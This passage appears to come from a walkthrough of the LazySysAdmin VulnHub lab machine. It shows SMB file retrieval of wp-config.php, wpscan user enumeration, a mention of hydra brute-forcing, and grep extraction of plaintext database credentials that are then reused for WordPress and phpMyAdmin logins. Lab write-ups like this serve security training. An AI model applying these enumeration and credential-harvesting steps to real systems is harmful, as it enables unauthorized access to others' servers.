 ```
  .htaccess                           H       35  Tue Aug 15 21:40:13 2017
  xmlrpc.php                          N     3065  Thu Sep  1 02:31:29 2016
  wp-login.php                        N    34337  Mon Sep 10 14:44:20 2018
  wp-load.php                         N     3301  Tue Oct 25 14:15:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 22:00:32 2016
  wp-config.php
smb: \wordpress\> get wp-config.php
```
Check out the contents of these files:
```
# cat deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
# cat robots.txt
User-agent: *
Disallow: /old/
Disallow: /test/
Disallow: /TR2/
Disallow: /Backnode_files/

```

The `robots.txt` has the same contents as we got when enumerating using nmap. Hence the publicly accessible share$ folder is the root directory of the website.

1. Use wpscan to enumerate for users and try to bruteforce the site.

> wpscan -u 192.168.175.133/wordpress --enumerate u

![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 15.png)

We got the admin user and tried to bruteforce with hydra luck.


2. Check for credentials in wp-config:

```
# grep -i 'pass\|user' wp-config.php

/** MySQL database username */
define('DB_USER', 'Admin');
/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
```

![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 6.png)

This gives us login credentials site. This credential works for both phpmyadmin as well as wordpress.
